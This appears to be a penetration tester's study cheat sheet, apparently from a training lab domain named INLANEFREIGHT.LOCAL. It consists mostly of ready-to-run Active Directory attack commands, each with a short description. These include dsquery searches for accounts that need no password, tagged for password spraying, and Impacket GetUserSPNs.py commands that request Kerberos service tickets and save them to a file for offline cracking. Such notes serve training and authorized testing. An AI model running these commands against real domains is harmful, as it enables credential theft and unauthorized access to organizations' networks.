 ```PowerShell
dsquery * "CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
```
View all objects in an OU
#organizationalunits #domaininfo #enumeration 

```PowerShell
dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=32))" -attr distinguishedName userAccountControl
```
Queries users with specific attributes (PASSWD_NOTREQD)
#usernames #passwords #passwordattacks #passwordspraying #enumeration  ^7f6950

```PowerShell
dsquery * -filter "(userAccountControl:1.2.840.113556.1.4.803:=8192)" -limit 5 -attr sAMAccountName
```
Looks for Domain Controllers in the current environment, limiting the results to five.
#domaincontroller #domaininfo #enumeration  ^dddee8

## Kerberoasting

### Linux

#### List SPN Accounts with GetUserSPNs.py
```Shell
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday
```
Impacket tool used to get a list of SPNs on the target Windows domain from a Linux-based host.
#spn #serviceprincipalname #kerberoasting #enumeration  ^c4b6aa

#### Request all TGS Tickets
```Shell
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday -request
```
Impacket tool used to download/request (-request) all TGS tickets for offline processing from a Linux-based host.
#tickets #tgs  ^180b1a

#### Requesting a Single TGS ticket
```Shell
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday -request-user sqldev
```
Impacket tool used to download/request (-request-user) a TGS ticket for a specific user account (sqldev) from a Linux-based host.
#tickets #tgs  ^180b1a

#### Save the TGS Ticket to an Output File
```Shell
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday -request-user sqldev -outputfile sqldev_tgs
```
Impacket tool used to download/request a TGS ticket for a specific user account and write the ticket to a file (-outputfile sqldev_tgs) linux-based host.
#tickets #tgs  ^180b1a
